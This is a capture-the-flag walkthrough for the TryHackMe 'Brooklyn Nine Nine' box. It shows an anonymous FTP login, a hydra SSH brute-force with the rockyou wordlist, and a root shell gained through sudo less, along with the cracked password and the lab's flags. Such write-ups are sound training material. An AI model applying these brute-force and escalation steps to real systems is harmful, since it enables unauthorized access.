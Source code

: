 # Brooklyn Nine Nine

## Description

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 22 ssh
* 80 http

~~~
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.173
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## FTP

Let's start with the ftp service since anonymous login is allowed. There is only a txt file there. I downloaded it and read the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ ftp $IP        
Connected to 10.10.141.151.
220 (vsFTPd 3.0.3)
Name (10.10.141.151:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.08 secs (1.4535 kB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
~~~

We obtained three usernames from this file:
* Amy
* Jake
* Holt

Btw, it seems like user `jake` has a weak password, so we might be able to brute-force his password.

## Brute-forcing SSH

I used `hydra` and rockyou wordlist to brute-force Jake's password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Brooklyn_Nine_Nine/files]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-27 07:40:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.141.151:22/
[22][ssh] host: 10.10.141.151   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
~~~

Great! We have credentials to log into SSH service:
* Username: jake
* Password: 987654321

## User Flag

I logged on ssh service using the creds (`jake:987654321`) and started looking for the user flag. I found the user flag in `/home/holt`:

~~~
jake@brookly_nine_nine:~$ cd /home/holt
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
~~~

User flag: `ee11cbb19052e40b07aac0ca060c23ee`

## Root Flag

Now we need to obtain the root flag. I ran `sudo -l` to check my permissions and can run `less` with sudo and no password:

~~~
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
~~~

We have two ways of using this permission.

### First way

The first way is to simply run the following command and read the root flag:

~~~
sudo less /root/root.txt
~~~

### Second way

The second way is to fully go root, because `less` allows us to run shell commands by entering `!` followed by a command. We can simply run `/bin/bash` and since we have ran it with sudo, it will spawn us a root shell. Let's see the steps:

First choose a random file to read (I chose user.txt) then run this command:

~~~
jake@brookly_nine_nine:/home/holt$ sudo less user.txt
~~~

Then type the following and press enter:

~~~
!/bin/bash
~~~

And now we are root! Let's head to `/root` and read the root flag:

~~~
root@brookly_nine_nine:/home/holt# id
uid=0(root) gid=0(root) groups=0(root)
root@brookly_nine_nine:/home/holt# cd /root
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
~~~

Root flag: `63a9f0ea7bb98050796b649e85481845`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

And have a good one! : )
